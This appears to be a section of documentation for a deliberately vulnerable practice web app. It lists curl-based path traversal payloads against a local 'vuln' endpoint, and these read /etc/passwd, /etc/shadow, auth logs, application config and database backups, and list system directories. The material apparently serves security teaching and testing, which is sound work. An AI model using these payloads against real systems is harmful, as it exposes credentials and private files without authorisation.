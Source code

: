 ### Attack Vectors and Techniques

#### 1. Basic Directory Traversal

```bash
# Unix/Linux systems - access passwd file
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/passwd"

# Windows systems - access hosts file
curl "http://localhost:5000/api/pathtraversal/vuln?filename=..\\..\\..\\windows\\system32\\drivers\\etc\\hosts"

# Access shadow file (if permissions allow)
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../../../etc/shadow"
```

**What happens:**
1. `../../../` navigates up three directory levels from the intended "static" folder
2. `etc/passwd` accesses the system user file
3. Application reads and returns the file content
4. Attacker gains system user information

#### 2. Absolute Path Attacks

```bash
# Direct absolute path access
curl "http://localhost:5000/api/pathtraversal/vuln?filename=/etc/passwd"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=C:\\Windows\\System32\\drivers\\etc\\hosts"

# Configuration files
curl "http://localhost:5000/api/pathtraversal/vuln?filename=/etc/apache2/apache2.conf"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=/var/log/auth.log"
```

#### 3. Application-Specific File Access

```bash
# Access application configuration
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../appsettings.json"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../appsettings.Production.json"

# Database files
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../database.sqlite"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../backup.sql"

# Log files
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../logs/application.log"
curl "http://localhost:5000/api/pathtraversal/vuln?filename=../logs/error.log"
```

#### 4. Directory Listing Attacks

```bash
# List root directory
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=../../.."

# List system directories
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=../../../etc"
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=../../../var/log"

# List user directories
curl "http://localhost:5000/api/pathtraversal/list/vuln?directory=../../../home"
```
